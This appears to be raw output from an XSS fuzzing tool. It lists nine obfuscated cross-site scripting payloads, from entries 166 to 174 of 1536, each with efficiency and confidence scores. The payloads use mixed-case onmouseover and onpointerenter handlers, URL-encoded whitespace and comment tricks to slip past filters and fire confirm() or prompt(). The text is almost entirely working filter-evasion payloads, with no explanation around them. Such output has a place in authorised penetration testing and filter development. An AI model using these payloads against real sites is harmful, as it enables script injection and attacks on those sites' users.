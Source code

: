 ------------------------------------------------------------
 Payload: <A/+/ONmOUSeOver%09=%09confirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 166/1536
 
------------------------------------------------------------
 Payload: <D3v%0aONMOuseoVer+=+confirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 167/1536
 
------------------------------------------------------------
 Payload: <d3V%0dOnPOInTERenter+=+confirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 168/1536
 
------------------------------------------------------------
 Payload: <detaiLS%0donpoIntErenTer%09=%09confirm()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 169/1536
 
------------------------------------------------------------
 Payload: <d3v%0dOnPoinTERENTer%0a=%0a(confirm)()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 170/1536
 
------------------------------------------------------------
 Payload: <A%0dOnmoUSeOvEr%09=%09(prompt)``//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 171/1536
 
------------------------------------------------------------
 Payload: <d3V/+/oNmoUSeOveR%0a=%0a(confirm)()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 172/1536
 
------------------------------------------------------------
 Payload: <d3v/+/OnmOuSEOveR%0d=%0da=prompt,a()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 173/1536
 
------------------------------------------------------------
 Payload: <A%0dONmOusEoVer%09=%09confirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 174/1536
 